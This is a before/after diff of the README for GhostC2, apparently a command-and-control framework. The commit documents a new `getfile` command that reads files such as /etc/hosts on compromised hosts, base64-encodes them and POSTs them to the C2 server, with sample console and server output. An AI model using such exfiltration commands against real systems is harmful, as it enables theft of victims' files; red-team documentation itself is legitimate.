

Before and after one commit to wolfwashere/GhostC2, a Markdown page: README.md, the part around the change. Shown: that part at 80% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -160,10 +160,84 @@ Quick tasks for both Windows and Linux/macOS:
 - `netstat` variants
 
 ---
+## 📂 File Exfiltration
+
+GhostC2 now supports secure, encoded file exfiltration via the live console or task queue.
+
+---
+
+### ✅ How It Works
+
+Use the `getfile` command to retrieve any accessible file from a beacon:
+
+```
+getfile /etc/hosts
+```
+
+The agent will:
+
+1. Read the specified file
+2. Base64-encode its contents
+3. POST the encoded data to the C2 server
+4. The server will decode and save it to:
+   ```
+   server/downloads/<hostname>/<filename>
+   ```
+
+---
+
+### 🔒 Notes
+
+- Exfiltrated files are stored per-host for traceability
+- Server-side decoding is automatic
+- The `[EXFIL:<filepath>]` header ensures safe parsing
+- Console output still displays result confirmation
+
+---
+
+### 🛠 Example
+
+**Command:**
+```
+getfile /etc/hosts
+```
+
+**Console output:**
+```
+$ getfile /etc/hosts
+[EXFIL:/etc/hosts]
+aW50ZXJuZXQgY29ycnVwdGlvbiBldmVyeXdoZXJlCg==
+```
+
+**Server log:**
+```
+[DEBUG] Saving to: downloads/MacBook-Pro.local/hosts
+[+] File received from MacBook-Pro.local: hosts saved to downloads/MacBook-Pro.local/hosts
+```
+
+---
+
+### 📁 Tip
+
+Add `server/downloads/` to your `.gitignore`:
+
+```
+# Avoid pushing exfiltrated files
+server/downloads/
+```
+
+---
+
+### ⏭️ Planned Enhancements
+
+- UI for browsing & downloading exfiltrated files
+- File overwrite warning system
+- Directory / wildcard exfil support
+- Operator action logging
+
 
 ### ⏭️ Coming Soon
 
-- File exfiltration via `getfile <path>`
 - Per-host command logs
 - Session tabs for multitarget ops
 
````
